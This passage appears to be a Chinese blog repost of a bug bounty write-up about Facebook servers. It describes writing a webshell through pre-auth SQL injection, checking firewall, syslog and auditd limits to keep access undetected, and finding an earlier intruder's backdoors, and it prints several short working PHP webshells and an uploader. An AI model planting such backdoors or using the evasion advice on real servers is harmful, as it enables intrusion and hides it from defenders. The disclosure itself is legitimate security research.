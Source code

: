 ![img](https://img2018.cnblogs.com/blog/1049983/201906/1049983-20190628162504732-2102102269.png)

​                      *使用 Pre-Auth SQL Injection 写入 Webshell*

在实际渗透中进入服务器后的第一件事情就是检查当前的环境是否对自己有用，为了要让自己可以在服务器上维持久的权限，就要尽可能的了解服务器上有什么限制、记录，避开可能会被发现的风险 :P

Facebook 大致有以下限制:

1. 防火牆无法连接外部网络, TCP, UDP, 53, 80, 443 皆无法连接
2. 存在远端的 Syslog 服务器
3. 开启Auditd 记录

无法外连看起来有点麻烦，但是 ICMP Tunnel 看似是可行的，但这只是一个 Bug Bounty Program 其实不需要太麻烦就纯粹以 Webshell 操作即可。

------

### 0x02  渗透测试过程

正当收集漏洞证据向 Facebook 安全团队报告时，从网页日志中似乎看到一些奇怪的痕迹。

首先是在 “/var/opt/apache/php_error_log” 中看到一些奇怪的 PHP 错误信息，从错误信息来看似乎像是更改 Code 所执行产生的错误。

![img](https://img2018.cnblogs.com/blog/1049983/201906/1049983-20190628162602484-1915552452.png)

​                                                        *PHP error log*

跟随错误信息的路径分析，发现疑似前人留下的 Webshell 后门

![img](https://img2018.cnblogs.com/blog/1049983/201906/1049983-20190628162636903-846713840.png)

​                          *Webshell on facebook server*

其中几个文件的内容如下：

sshpass

```
沒錯，就是那個 sshpass
```

bN3d10Aw.php

```
<?php echo shell_exec($_GET['c']); ?>
```

uploader.php

```
<?php move_uploaded_file($_FILES["f]["tmp_name"], basename($_FILES["f"]["name"])); ?>
```

d.php

```
<?php include_oncce("/home/seos/courier/remote.inc"); echo decrypt($_GET["c"]); ?>
```

sclient\_user\_class\_standard.inc

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)
